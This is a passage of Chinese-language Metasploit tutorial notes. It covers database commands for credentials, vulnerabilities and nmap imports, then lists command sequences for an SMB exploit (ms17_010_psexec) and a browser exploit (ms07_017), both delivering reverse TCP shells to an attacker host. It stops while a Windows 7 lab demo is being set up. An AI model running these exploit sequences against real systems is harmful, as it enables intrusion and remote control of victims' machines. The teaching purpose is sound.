 **creds：**

- 查看扫描出来的密码信息

**vulns：**

- 查看扫描出来的漏洞信息

**loot**：

- 有些账号密码我们可能没有获取到明文信息，可是经过加密的hash值，可以用这个显示

**db_export/db_import**：

- 数据库的导入和导出
- db_export -f /root/msfbak.xml
- nmap导出的也可以导入到msf中
- nmap -A 192.168.1.113 -oX nmap.xml => db_import -f /root/nmap.xml

#  Exploit模块

分为Active Exploit和Passive Exploit

**Active Exploit**

目标提供了某种服务，服务存在漏洞

- use exploit/windows/smb/ms17_010_psexec
- set RHOST 192.168.1.100
- set PAYLOAD windows/shell/reverse_tcp
- set LHOST 192.168.1.1
- set LPORT 4444
- set SMBUSER user1
- set SMBPASS pass1
- exploit

**Passive Exploit**

被攻击者通常不开放端口或开放端口上的服务没有漏洞，漏洞存在于受害者机器上的客户端软件上。客户端需要访问某些远程服务器上的服务，当它访问的时候，当在服务器上放置了漏洞利用代码，由于客户端程序存在漏洞，服务器也会将这些漏洞利用代码作为响应报文返回给客户端，造成客户端漏洞被利用。

- use exploit/windows/browser/ms07_017_ani_loadimage_chunksize
- set URIPATH /
- set PAYLOAD windows/shell/reverse_tcp
- set LHOST 192.168.1.1
- set PORT 4444
- exploit 

## Active Exploit演示

实验机器

- 受害者：Windows 7 旗舰版 6.1.7601 Service Pack 1 Build 7601，关闭Windows7防火墙。IP地址为192.168.171.133
- 攻击者：Kali 4.18.0。IP地址为192.168.171.129

Kali上启动MSF，可以先启动postgresql数据库，防止后面MSF连不上数据库
